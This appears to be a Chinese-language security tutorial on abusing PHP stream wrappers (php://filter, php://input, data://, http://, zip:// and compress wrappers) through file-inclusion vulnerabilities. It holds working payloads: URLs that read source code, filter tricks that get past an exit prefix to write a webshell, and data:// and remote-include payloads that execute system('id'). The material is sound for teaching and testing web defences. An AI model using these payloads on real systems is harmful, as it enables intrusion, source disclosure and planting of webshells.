




# 伪协议

## 支持的协议和封装协议

官方文档中可以看到PHP 带有很多内置 URL 风格的封装协议，例如 `php://`，`file://`等等，而其中也存在一些攻击者可以利用的地方  

<a-alert type="success" message="" description="官方文档：https://www.php.net/manual/zh/wrappers.file.php" showIcon>
</a-alert>
<br/>


## php://

PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。




### php://input

当 allow_url_include 配置在 php.ini 文件中为 `On`时，可以通过使用 `php://input` 在POST数据中传入执行的PHP代码来达到命令执行


这里使用文件包含代码来做例子

```php
<?php
include($_GET["file"]);
?>
```


### php://filter

当存在文件包含漏洞时，可以使用 `php://filter` 读取 PHP源码

```php
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```


这里使用的过滤器为 `convert.base64-encode`，读取到的响应 `base64` 解码后就是源码文件


如果存在WAF或者代码过滤 base64 等字符的情况下，除去这个常用的过滤器，还存在其他的方法来获取数据

```
/index.php?file=php://filter/read=string.rot13/resource=index.php 
```


其中还有一个在PHP文档中提到较少的过滤器 `iconv转换过滤器(convert.iconv.*)`，通过命令可以看到可以使用的方法


```
/index.php?file=php://filter/read=convert.iconv.ISO_8859-7:2003/resource=index.php
```


当部分代码中含有 `死亡 exit`时，使用 `php://filter` 也可以继续绕过，达到写入Webshell的目的，例如下面的PHP代码

```php
<?php
$content = '<?php exit; ?>';
$content .= $_POST['content'];
file_put_contents($_POST['filename'], $content);
?>
```

当我们想写入PHP代码时


在exit的影响下，写入的PHP代码无法执行，而这时通过 `php://filter` 利用特殊的转换器就可以绕过 exit 写入想要执行的PHP代码


如上图，当存在 Base64索引中 不包含的字符中，base64会跳过不识别的字符拼接可识别字符再进行解码，也就是说 `<?php exit; ?>` 传入 base64的实际只有 `phpexit`, 而 base64算法4byte 为一组进行运算，我们通过传入任意一个字母拼接就可以使其解码，再通过 base64的过滤器就可以绕过 `exit`写入 Webshell

```
content=QPD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=convert.base64-decode/resource=phpinfo.php
```




也可以利用 `string.strip_tags` 去除整个 `<?php exit; ?>`，来写入

```
content=PD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=phpinfo.php
```

但这个过滤器在 `PHP 7.3.0` 版本废弃了，后续版本使用可能会导致写入失败


除去这些常用的，还有很多方法可以使用

```
# rot13过滤器
content=<?cuc cucvasb();?>&filename=php://filter/write=string.rot13/resource=phpinfo.php
```


```
#UCS-2 转换
content=?<hp phpipfn(o;)>?&filename=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=phpinfo.php
```


## data://

文件包含源码

```php
<?php
include($_GET["file"]);
?>
```

利用 `data://` 执行 php代码


也可以通过编码的方式绕过一些过滤

```php
/index.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOz8%2
```


## http://

当配置选项 `allow_url_fopen`与`allow_url_include` 均为On时，通过 `http:// 或 https://` 协议可以远程包含文件或包含本地文件

```
# shell.php
<?php system("id");?>
```


## file://

这个协议常常用于读取读取文件，当知道文件路径时，可以通过该协议读取文件获取敏感数据


## zip://  &  bzip2://  &  zlib://

`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件。当存在压缩包上传的情况时，我们可以通过此协议访问 压缩包中的内部文件



上图将 `phpinfo.txt` 打包为 `phpinfo.zip`

```
/index.php?file=zip:///Users/peiqi/Sites/peiqi/phpinfo.zip%23phpinfo.txt 
```


压缩包后缀为 `gz`时

```
/index.php?file=compress.zlib:///Users/peiqi/Sites/peiqi/phpinfo.gz 
```



压缩包后缀为`bz2`时

```
/index.php?file=compress.bzip2:///Users/peiqi/Sites/peiqi/phpinfo.bz2
```

 
